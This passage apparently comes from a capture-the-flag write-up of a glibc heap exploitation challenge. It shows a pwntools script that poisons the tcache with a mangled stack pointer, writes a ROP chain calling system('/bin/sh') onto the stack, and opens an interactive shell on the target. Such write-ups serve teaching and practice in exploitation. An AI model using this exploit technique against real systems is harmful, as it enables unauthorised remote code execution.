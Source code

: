 #### Now that we have all of our required leaks we poison the tcache one last time with our stack pointer and write a ROP chain to the stack and finally exit the program.

```python
rop = ROP(libc)
ropchain = b'A' * 8
ropchain += p64(rop.find_gadget(['pop rdi','ret'])[0])
ropchain += p64(next(libc.search(b'/bin/sh\x00')))
ropchain += p64(rop.find_gadget(['ret'])[0])
ropchain += p64(libc.symbols.system)


create(0x100, b'pwn')
create(0x100, b'pwn')

delete(7)
delete(8)

update(8, p64(heap_base >> 12 ^ saved_rbp))

create(0x100, b'pwned')
create(0x100, ropchain)

p.sendline(b'0')
p.recvrepeat(1)

print('*** SHELL ***')
p.interactive()
```

#### All of this put together allows us to obtain a shell on the target

![RCE](assets/flag_screenshot.jpg)

